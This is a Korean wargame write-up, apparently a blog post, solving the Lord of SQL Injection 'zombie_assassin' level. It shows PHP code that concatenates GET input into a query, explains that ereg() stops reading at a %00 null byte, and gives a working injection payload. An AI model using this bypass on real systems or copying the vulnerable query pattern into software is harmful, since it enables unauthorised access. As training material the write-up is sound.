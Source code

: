 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie_assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


지난 문제에 이어 또 다른 `assassin` 문제이다.  

이번에는 `zombie_assassin`이란다.  

이 전 문제의 `assassin`이 죽지도 않고 다시 살아서 돌아왔나보다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='' and pw=''
----------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

이번에도 `'(싱글쿼터)`에만 필터링이 있다.  

그런데 이번에는 `like`이 아니라 다시 `=`이 사용되었고, `preg_match()`가 아니라 `ereg()`가 사용되었다.  

`ereg()`는 이 전에도 한번 언급한 적 있었던 것 같은데, 필터링이 완벽하지 않다.  

대소문자 구분도 못할뿐더라, `%00`으로 `null byte`를 넣어주면 이를 문자열의 끝으로 인식 해 이 뒤의 문자는 검사하지 않는다.  

때문에 나도 `%00`을 사용 해 문제를 풀었다.  

아래와 같이 입력 해 주면 문제를 풀 수 있다.  

```
?id=admin&pw=%00a' or id='admin
```

```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='admin' and pw='a' or id='admin'
-------------------------------------------------------------------------------------------------------------------

ZOMBIE_ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`ZOMBIE_ASSASSIN Clear!!`
